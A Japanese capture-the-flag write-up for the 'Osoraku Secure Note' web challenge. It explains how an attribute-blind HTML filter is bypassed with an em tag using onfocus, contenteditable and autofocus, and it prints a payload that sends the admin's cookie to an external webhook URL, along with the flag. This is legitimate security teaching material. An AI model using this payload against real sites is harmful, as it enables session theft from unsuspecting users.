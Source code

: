 # [Web] Osoraku Secure Note
> メモ帳を作ってみました。
> 
> ---
> 
> I made a note-taking service.

与えられたURLにアクセスしてみると、以下のようにメモが入力できるフォームが表示されます。

![01.png](images/01.png)

適当に `neko` と書いて投稿ボタンを押してみると、`/note/b2f2c337-e3ea-4a1c-9e05-bfaad5f7ab24` のようにランダムに生成されたUUIDを含むパスに遷移した上で、以下のように先ほど入力したメモが表示されました。

ページの下部に `Report this note` というボタンがありますが、これを押すとadminがそのメモを見に来てくれるようです。

![02.png](images/02.png)

トップページにも書かれているように、`del`, `em`, `strong` の3つの要素であればHTMLタグをメモに含めることができ、例えば `<del>del</del>, <em>em</em>, <strong>strong</strong>` のようなメモであれば以下のように表示されます。

![03.png](images/03.png)

もし `<a href="#">link</a>` のように許可されていないHTMLのタグを利用しようとすれば、`Prohibited HTML tags found!` と表示され弾かれてしまいます。

![04.png](images/04.png)

## ソースコードを読む
与えられたソースコードのうち、`server` ディレクトリはWebサーバの処理が、`worker` ディレクトリはadminがメモを見に来る際の処理が置かれています。まずは後者から見ていきましょう。

`worker/index.js` は以下のようなコードになっています。Cookieに `flag` というキーでフラグを設定した後に、報告されたメモを訪れるという処理になっています。

`httpOnly: false` とJavaScriptからもこのCookieにアクセスできる設定になっていることから、この問題でのゴールは `document.cookie` にアクセスすることであるとわかります。フォームへの入力やリンクのクリックといった処理はなく、ただ見るだけです。

```javascript
const crawl = async (id) => {
  const url = BASE_URL + '/note/' + id;
  console.log(`[+] Crawling started: ${url}`);

  const browser = await puppeteer.launch(browser_option);

  const page = await browser.newPage();
  try {
    await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: new URL(BASE_URL).hostname,
      httpOnly: false,
      secure: false
    });
    await page.goto(url, {
      waitUntil: 'networkidle0',
      timeout: 3 * 1000,
    });
  } catch (e) {
    console.log('[-]', e);
  } finally {
    await page.close();
  }

  await browser.close();
};
```

Webサーバの方もソースコードを読んでいきましょう。メモの投稿処理を見てみると、以下のように[JSDOM](https://github.com/jsdom/jsdom)というライブラリでHTMLとしてメモをパースした上で、`isSafe` なる関数によって禁止されているHTMLタグが使われていないかチェックされています。

```javascript
app.post('/note', (req, reply) => {
  const { content } = req.body;
  if (typeof content !== 'string' || content.length === 0) {
    return reply.send({ status: 'error', message: 'No content is provided' });
  }

  const fragment = JSDOM.fragment(content);
  if (![...fragment.childNodes].every(isSafe)) {
    return reply.send({ status: 'error', message: 'Prohibited HTML tags found!' });
  }

  const id = uuidv4();
  notes.set(id, {
    timestamp: Date.now(), content
  });

  return reply.send({ status: 'ok', message: id });
});
```

`isSafe` は以下のような処理になっています。DOMツリーを再帰的に辿り、どのノードも名前 (`nodeName`) が `#text` (テキスト), `#document-fragment`, `BR`, `DEL`, `EM`, `STRONG` のいずれかであるかをチェックしています。なんとかしてこのチェックをバイパスできないでしょうか。

```javascript
// this check ensures that the input doesn't have dangerous HTML tags!
function isSafe(node) {
  if (![...node.childNodes].every(isSafe)) {
    return false;
  }

  if (!['#text', '#document-fragment', 'BR', 'DEL', 'EM', 'STRONG'].includes(node.nodeName)){
    return false;
  }

  return true;
}
```

## isSafeをバイパスする
`isSafe` をよく見ると、要素名だけチェックして属性についてはまったくチェックされていないことがわかります。`em` や `strong` のような要素を使いつつ、属性のみでJavaScriptコードの実行に持ち込むことはできないでしょうか。

`<img src="a.png" onload="alert(123)">` のように[イベントハンドラ属性](https://developer.mozilla.org/ja/docs/Learn/JavaScript/Building_blocks/Events#%E3%82%A4%E3%83%B3%E3%83%A9%E3%82%A4%E3%83%B3%E3%82%A4%E3%83%99%E3%83%B3%E3%83%88%E3%83%8F%E3%83%B3%E3%83%89%E3%83%A9%E3%83%BC_%E2%80%94_%E4%BD%BF%E3%81%A3%E3%81%A1%E3%82%83%E3%81%A0%E3%82%81)を使えば、特定のイベントが発火したときに、属性値として設定したJavaScriptコードを実行させることができます。MDNで[イベントハンドラの一覧](https://developer.mozilla.org/ja/docs/Web/API/GlobalEventHandlers)を眺めていると色々と使えそうなものがあることがわかりますが、`em` のような要素でも発火させられるものとして、その要素にフォーカスが当たった際に発火する `onfocus` に注目します。

ユーザインタラクションなしに `onfocus` 属性で設定したJavaScriptコードを実行させる方法はいくつか考えられますが、今回は [`contenteditable`](https://developer.mozilla.org/ja/docs/Web/HTML/Global_attributes/contenteditable) でその要素を編集可能にし、さらに[`autofocus`](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/autofocus) で自動的にフォーカスが当たるようにする方法を使ってみましょう。

これらを組み合わせて、`<em onfocus="alert(123)" contenteditable autofocus>test</em>` という内容のメモを投稿します。これで、開いた途端にダイアログが表示されるメモができあがりました。

## フラグを得る
この問題の目的はadminのCookieを盗み取ることでした。`navigator.sendBeacon('(URL)',document.cookie)` や `(new Image).src='(URL)?' + document.cookie` のようなコードで `document.cookie` を自身の管理下にあるWebサーバに送信させましょう。そのためだけにわざわざWebサーバを立てるのも面倒なので、[Webhook.site](https://webhook.site)や[RequestBin](https://requestbin.net/)を使いましょう。

`<em onfocus="navigator.sendBeacon('https://webhook.site/…',document.cookie)" contenteditable autofocus>test</em>` という内容のメモを投稿し、adminに報告します。すると、Webhook.siteに以下のようなHTTPリクエストが飛んできました。これでフラグが得られました。

![05.png](images/05.png)

```
HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}
```